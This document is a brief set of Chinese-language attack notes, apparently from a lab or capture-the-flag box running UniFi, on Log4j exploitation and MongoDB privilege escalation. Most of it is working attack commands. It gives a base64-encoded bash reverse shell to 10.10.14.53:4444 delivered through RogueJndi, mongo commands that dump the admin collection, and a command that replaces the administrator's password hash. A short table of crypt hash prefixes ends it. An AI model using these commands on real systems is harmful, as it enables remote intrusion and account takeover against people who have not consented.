 关键词：log4j利用 mongodb提权

shell:
echo 'bash -c bash -i >&/dev/tcp/10.10.14.53/4444 0>&1' | base64
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNTMvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.53"

script /dev/null -c bash

mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"` #ace是unifi默认数据库
x_shadow# 系统管理员hash密码 $6$是sha-512标志头
mkpasswd -m sha-512 Password1234 #生成sha-512密码
mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'#替换管理员密码


知识扩展：

| 标志 | 算法 | 说明 |
| --- | --- | --- |
| `$1$` | **MD5** | 传统的 MD5-based crypt，比较老，安全性差。 |
| `$2a$` `$2y$` `$2b$` | **Blowfish (bcrypt)** | bcrypt 系列，很多现代系统常用，强度较高。 |
| `$5$` | **SHA-256** | 使用 SHA-256 的 crypt 算法。 |
| `$6$` | **SHA-512** | 使用 SHA-512 的 crypt 算法，常见于现代 Linux。 |

